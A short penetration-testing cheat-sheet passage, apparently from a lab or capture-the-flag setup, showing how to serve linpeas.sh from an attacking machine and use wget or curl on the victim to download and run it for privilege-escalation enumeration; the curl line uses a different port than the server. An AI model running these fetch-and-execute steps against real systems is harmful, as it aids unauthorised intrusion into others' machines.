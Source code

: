 Attacking machine – Navigate to linpeas folder
`python -m SimpleHTTPServer 9500`
or
`python3 -m http.server 9500`

Victim machine
`wget <tun0_ip>:9500/linpeas.sh`
`chmod +x linpeas.sh`
`./linpeas.sh 2>/dev/null`


if wget doesn’t work

`curl <tun0_ip>:8080/linpeas.sh -O`
`-o <filename>` to use a different filename

